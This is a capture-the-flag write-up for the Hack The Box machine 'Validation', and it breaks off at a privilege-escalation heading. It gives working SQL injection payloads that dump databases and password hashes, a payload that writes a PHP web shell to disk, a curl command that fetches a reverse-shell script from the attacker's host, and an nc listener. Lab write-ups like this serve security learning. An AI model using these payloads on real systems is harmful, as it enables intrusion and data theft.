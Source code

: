 # Validation HacktheBox

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)

**All DataBases**

Payload: ' union select schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/79543461/177171212-3efc9aa0-4291-4807-abf9-66885bfe0a08.png)

**Tables Registration Database**

Payload: ' union select table_name from information_schema.tables where table_schema="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177171583-48dca75b-e3f3-4a55-a860-3d5297fb0f45.png)

Table name is the same than DataBase Name

**Columns**

Payload: ' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177172114-948b0c56-5358-47d9-8328-fec1366e3086.png)

**Users and Passwords**

Payload: ' union select group_concat(username,0x3a,userhash) from registration-- -

![image](https://user-images.githubusercontent.com/79543461/177172762-289b5e1f-248c-4e39-994f-d6fd8a30c4ff.png)

This users are my users...

**RCE**

Payload: ' union select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/www/html/rce.php"-- -

**Works!!**

![image](https://user-images.githubusercontent.com/79543461/177177136-7d1b27fa-3f5e-420b-9fb2-e048e02d502a.png)

**Reverse Shell**

I create in my Kali Machine a php script to gain reverse shell.

I open http server wirth python3: python3 -m http.server

In victim RCE: curl -o shell.php 10.10.14.33:8000/shell.php

Now i put rlwrap nc -lnvp 1212

I access to:  http://10.10.11.116/shell.php

**I HAVE SHELL!!**

![image](https://user-images.githubusercontent.com/79543461/177179263-e41c28fb-324e-4e7d-926b-8e39c4548d11.png)

**user.txt**

![image](https://user-images.githubusercontent.com/79543461/177180144-1d77396f-ef0f-468b-95cb-6a7bc2c9e3a7.png)

**Docker Container**

![image](https://user-images.githubusercontent.com/79543461/177180507-f5f4daf5-7dd3-46d8-b3ca-80eb00577e6e.png)

Im in docker container but i found a credentials in /var/www/html/config.php

![image](https://user-images.githubusercontent.com/79543461/177180745-2ee9c296-3318-4717-ae22-c97fb8fff416.png)


**PRIVESC**
